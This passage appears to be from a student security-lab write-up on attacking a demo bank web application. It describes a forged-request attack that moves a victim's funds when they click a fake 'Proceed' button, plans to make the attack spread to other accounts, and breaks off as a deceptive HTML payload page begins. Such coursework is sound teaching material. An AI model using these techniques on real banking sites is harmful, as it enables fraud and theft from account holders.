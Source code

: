   

\- If the victim clicks on the 'proceed' button, the funds will be transferred to the attacker's account, and the page is redirected to the bank web application.

  

!\[Attack\_Successful\](images/task2/1.4.2.JPG)

  
  
  

\_\_Q: Enhance your last attack such that it automatically spreads to other accounts and transfers your money from them too. Briefly explain your attack.\_\_

  

\_\_solution\_\_

\- To perform this attack we have to make some assumptions to overcome some limitations.

\- The assumption is that a bank account number is an eight-digit number with the same number in every digit place like 11111111,22222222,33333333....,99999999.

\- Approaches and their limitations:

 - \*\*Approach 1:\*\* Bruteforce. to generate all account numbers and send the payload.

 - Limitation: Bruteforce is computationally costly.

 - \*\*Approach 2:\*\* Acquiring account number from the Account Details page.

 - Limitation: There might be a scenario where \`Account A\` has only \`B\`'s details on its account details page and \`B\` also has only \`A\`'s details in this case we are not able to spread the attack to other accounts.

  

\- Because of these limitations for the demonstration of the attack, we made the assumption.

  

\- To perform the attack please repeat the process explained in exercise 1.d replacing the cookie.html code with the code given below.

  

\`\`\`html

<html>

  

<body>

 We are very sorry for the inconvenience, you had an error..

 <button onclick="getURL()"\> Proceed </button>

 <div style="display:none" id="images"\> </div>

</body>

  

<script>

 const queryString \= window.location.search;
